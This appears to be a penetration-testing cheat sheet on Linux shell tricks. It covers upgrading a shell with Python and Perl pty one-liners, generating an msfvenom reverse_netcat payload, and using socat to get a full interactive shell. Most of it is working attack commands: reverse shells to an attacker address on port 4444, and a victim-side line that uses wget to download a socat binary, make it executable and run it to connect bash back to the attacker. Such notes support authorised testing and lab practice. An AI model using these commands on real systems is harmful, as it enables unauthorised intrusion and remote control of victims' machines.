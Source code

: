 ## Linux Bash Commands

```
# Change user
su username

```

### Improving your Shell
```
# Python
python -c 'import pty; pty.spawn("/bin/sh")'

# Perl
perl —e 'exec "/bin/sh";'
```

### Improving your Shell with msfvenom one-liners
```
# List the options
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

# Select and use one
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Using socat to invoke full interactive shell
```
# On attacking machine, listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim machine with socat already installed, replace 10.0.3.4 with attacking ip
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

# On victim machine without socat installed
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

```
